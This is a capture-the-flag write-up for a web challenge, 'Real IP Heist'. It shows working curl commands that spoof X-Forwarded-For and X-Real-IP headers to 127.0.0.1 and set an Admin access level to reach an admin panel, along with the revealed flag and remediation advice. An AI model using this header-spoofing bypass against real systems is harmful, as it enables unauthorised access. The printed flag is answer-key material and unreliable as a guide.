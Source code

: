 ```yaml
---
title: "🔓 Safaricom PwnZone – Real IP Heist"
layout: post
collection: writeups
permalink: /writeups/safaricom-real-ip-heist/
date: 2025-10-04
categories: [Writeups]
tags: [web, headers, pwnzone]
image: /assets/images/writeups/real-ip-heist/safaricom-real-ip-heist.jpg
thumbnail: /assets/images/writeups/real-ip-heist/safaricom-real-ip-heist.jpg
icon: fas fa-network-wired
excerpt: "Abused trust in X-Forwarded-For / X-Real-IP headers to escalate access and retrieve the flag."
description: "Exploit of server trusting client-supplied X-Forwarded-For/X-Real-IP headers, obtaining Admin access and the flag."
---
```


![Real IP Heist Screenshot](/assets/images/writeups/real-ip-heist/safaricom-real-ip-heist.jpg)

# Real IP Heist — Challenge Writeup

## Challenge Overview

* **Challenge Name:** Real IP Heist
* **Difficulty:** 50 points
* **Target URL:** `http://54.72.82.22:8085`
* **Description:** "Ever wonder what your network really reveals about you. Not everything is as anonymous as it seems..."

---

## Step-by-Step Solution

### 1. Initial Reconnaissance

Visited the target URL in a browser. The page displayed a simple login form with:

* Username (free text input)
* Access Level (dropdown with only "User" available)
* Login button

![Login Form Screenshot](/assets/images/writeups/real-ip-heist/TargetIP.png)

### 2. Analyzing Client-Side Restrictions

Inspected the page source and network activity using browser developer tools. Discovered that client-side JavaScript was setting a fixed `X-Forwarded-For` header, limiting users to "User" access level regardless of input.

![Page Source Screenshot](/assets/images/writeups/real-ip-heist/View-Page-Source.png)

### 3. Bypassing Client-Side Restrictions

The server appeared to trust HTTP headers for IP verification. I bypassed client-side restrictions using `curl` to send custom requests with spoofed headers.

### 4. First curl Request — Gaining Admin Access

Crafted a `curl` command to:

* Send a POST request to the login endpoint
* Override the `X-Forwarded-For` header to simulate an internal IP (`127.0.0.1`)
* Set the `access_level` parameter to `Admin` directly in POST data

```bash
curl -X POST 'http://54.72.82.22:8085/' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'X-Forwarded-For: 127.0.0.1' \
  --data 'username=attacker&access_level=Admin'
```

**Response:**

```html
<h2>Hello, attacker</h2>
<!-- real admin use internal tools -->
<p>Access level: Admin</p>
<p><a href="/admin">Go to admin panel</a></p>
```

### 5. Second curl Request — Accessing Admin Panel

The response revealed an `/admin` endpoint. Sent another request with both spoofed headers:

```bash
curl -X GET 'http://54.72.82.22:8085/admin' \
  -H 'X-Forwarded-For: 127.0.0.1' \
  -H 'X-Real-IP: 127.0.0.1'
```

**Response:**

```html
<h3>Welcome, admin!</h3>
<p>Flag: safctf{c0f1ec1fccb2de4a03031037251f21a7}</p>
```

![Page Source Screenshot](/assets/images/writeups/real-ip-heist/Curl.png)

## Vulnerability Analysis

**Critical Security Flaw:** The application trusted client-supplied headers for authentication decisions.

**Specific Issues:**

* Server used `X-Forwarded-For` and `X-Real-IP` headers to verify internal/trusted IPs.
* Spoofing headers to `127.0.0.1` bypassed access controls.
* `access_level` parameter was vulnerable to direct manipulation.
* Client-side restrictions provided a false sense of security.

## Flag

```
safctf{c0f1ec1fccb2de4a03031037251f21a7}
```

![Page Source Screenshot](/assets/images/writeups/real-ip-heist/Flag.png)

## Key Takeaways

* Never trust client-supplied headers for security decisions.
* Client-side restrictions are easily bypassed and should not be relied upon for access control.
* Always validate authentication and authorization on the server side.
* IP-based authentication can be vulnerable to header injection attacks.
* Security through obscurity (hidden admin endpoints) is not effective protection.

## Remediation Recommendations (brief)

1. Do not rely on `X-Forwarded-For` or other client-controllable headers for trust decisions. Implement server-side checks using trusted sources (e.g., internal firewall, verified reverse proxy that strips/sets these headers).
2. Validate and enforce `access_level` server-side; do not accept privilege escalation via POST parameters.
3. Implement proper authentication/authorization controls (session tokens, role checks) that cannot be manipulated from the client.
4. Harden server by ensuring only trusted proxies can set forwarding headers and by validating the source ASN/IP ranges where appropriate.
5. Log and monitor suspicious header manipulations and failed attempts.

---

## Notes

* All testing described here was performed in the context of the CTF challenge as provided by the target URL.
* Use the documented curl commands for reproducibility and reporting.
